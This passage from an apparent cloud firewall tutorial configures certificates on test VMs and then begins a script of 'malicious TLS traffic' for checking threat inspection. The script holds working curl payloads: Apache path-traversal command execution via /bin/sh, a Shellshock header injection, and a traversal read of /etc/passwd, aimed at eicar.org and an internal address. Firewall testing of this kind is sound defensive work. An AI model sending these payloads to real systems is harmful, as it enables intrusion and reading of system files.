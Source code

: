     ```
    gcloud compute ssh $PREFIX-client-vm --zone=$ZONE --tunnel-through-iap --command="bash -s" <<EOF
    sudo mv local_ca_root.crt /usr/local/share/ca-certificates/ 
    sudo update-ca-certificates
    EOF
    ```

##### Web VM

1. Create server certificate (`server.pem`) and key (`key.pem`) for the web app on `web-vm`.

    ```
    export WEB_VM_IP=$(gcloud compute instances describe $PREFIX-web-vm --project=$PROJECT_ID --zone=$ZONE --format='get(networkInterfaces[0].networkIP)')

    gcloud privateca certificates create \
        --issuer-location=$REGION \
        --issuer-pool $PREFIX-ca-pool \
        --subject "CN=Cloud NGFW Enterprise,O=Google" \
        --ip-san=$WEB_VM_IP \
        --generate-key \
        --key-output-file=./key.pem \
        --cert-output-file=./server.pem
    ```

2. Transfer the server certificate to the `web-vm`. 

    ```
    gcloud compute scp --tunnel-through-iap server.pem $PREFIX-web-vm:~/ --zone=$ZONE
    gcloud compute scp --tunnel-through-iap key.pem $PREFIX-web-vm:~/ --zone=$ZONE
    ```

3. On the `web-vm`, update the web application's SSL configuration to use the server certificate.

    ```
    gcloud compute ssh $PREFIX-web-vm --zone=$ZONE --tunnel-through-iap --command="bash -s" <<EOF
    sudo mv server.pem /etc/ssl/certs/
    sudo mv key.pem /etc/ssl/private/
    sudo sed -i 's/ssl-cert-snakeoil.pem/server.pem/g' /etc/apache2/sites-available/default-ssl.conf
    sudo sed -i 's/ssl-cert-snakeoil.key/key.pem/g' /etc/apache2/sites-available/default-ssl.conf
    sudo systemctl restart apache2
    sudo systemctl status apache2
    EOF
    ```
    <br>


### Prevent TLS Encrypted Threats with Cloud NGFW
Verify Cloud NGFW is able to intercept, decrypt, and inspect TLS traffic from the `client-vm` and `web-vm`.

1. Set an environment variable to a script that will generate malicious TLS traffic.

    ```
    REMOTE_SCRIPT_TLS='
    ns1=$(curl -s -o /dev/null -w "%{http_code}\n" https://www.eicar.org/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh --data "echo Content-Type: text/plain; echo; uname -a" --max-time 2)
    ns2=$(curl -s -o /dev/null -w "%{http_code}\n" https://www.eicar.org/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2)
    ns3=$(curl -s -o /dev/null -w "%{http_code}\n" https://www.eicar.org/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd --max-time 2)
    ew1=$(curl -w "%{http_code}\\n" -s -o /dev/null https://10.0.0.20/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh --data "echo Content-Type: text/plain; echo; uname -a" --max-time 2)
    ew2=$(curl -w "%{http_code}\\n" -s -o /dev/null https://10.0.0.20/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2) 
    ew3=$(curl -w "%{http_code}\\n" -s -o /dev/null https://10.0.0.20/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd --max-time 2)
    echo ""